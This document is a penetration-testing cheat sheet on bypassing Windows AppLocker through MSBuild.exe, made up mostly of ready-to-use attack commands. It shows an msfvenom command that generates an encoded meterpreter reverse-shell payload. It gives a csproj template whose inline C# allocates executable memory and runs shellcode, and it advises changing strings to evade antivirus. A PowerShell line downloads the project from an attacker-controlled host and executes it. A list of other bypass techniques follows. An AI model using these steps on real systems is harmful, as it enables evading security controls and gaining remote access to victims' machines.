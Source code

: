 # Applocker Bypasses

## MSBuild.exe

Multistep process to bypass applocker via MSBuild.exe:

1. Generate payload in csharp format with:
 ```bash cheat applocker msbuild generate payload
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f csharp -e x86/shikata_ga_nai -i <num of iterations> > <out>.cs`
```
2. Put the buffer into the template (be sure to change payload buffer, buffer size and some strings for av evasion:
```bash cheat applocker msbuild csproj template
<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <!-- This inline task executes shellcode. -->
  <!-- C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe SimpleTasks.csproj -->
  <!-- Save This File And Execute The Above Command -->
  <!-- Author: Casey Smith, Twitter: @subTee --> 
  <!-- License: BSD 3-Clause -->
  <Target Name="Hello">
    <ClassExample />
  </Target>
  <UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
    <Task>
    
      <Code Type="Class" Language="cs">
      <![CDATA[
        using System;
        using System.Runtime.InteropServices;
        using Microsoft.Build.Framework;
        using Microsoft.Build.Utilities;
        public class ClassExample :  Task, ITask
        {         
          private static UInt32 MEM_COMMIT = 0x1000;          
          private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;          
          [DllImport("kernel32")]
            private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr,
            UInt32 size, UInt32 flAllocationType, UInt32 flProtect);          
          [DllImport("kernel32")]
            private static extern IntPtr CreateThread(            
            UInt32 lpThreadAttributes,
            UInt32 dwStackSize,
            UInt32 lpStartAddress,
            IntPtr param,
            UInt32 dwCreationFlags,
            ref UInt32 lpThreadId           
            );
          [DllImport("kernel32")]
            private static extern UInt32 WaitForSingleObject(           
            IntPtr hHandle,
            UInt32 dwMilliseconds
            );          
          public override bool Execute()
          {
            byte[] shellcode = new byte[195] {};
              
              UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length,
                MEM_COMMIT, PAGE_EXECUTE_READWRITE);
              Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
              IntPtr hThread = IntPtr.Zero;
              UInt32 threadId = 0;
              IntPtr pinfo = IntPtr.Zero;
              hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
              WaitForSingleObject(hThread, 0xFFFFFFFF);
              return true;
          } 
        }     
      ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>
```
3. Download & Execute:
```bash cheat applocker msbuild trigger payload
Invoke-WebRequest "http://<ip>:<port>/<payload>.csproj" -OutFile "<outfile>.csproj"; C:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\<outfile>.csproj
``` 

## Other

* GreatSCT (https://github.com/GreatSCT/GreatSCT)
* Various Bypasses: https://github.com/api0cradle/UltimateAppLockerByPassList
* DLL Execution via Excel.Application RegisterXLL
* Bypass with Regsvr32

tags: applocker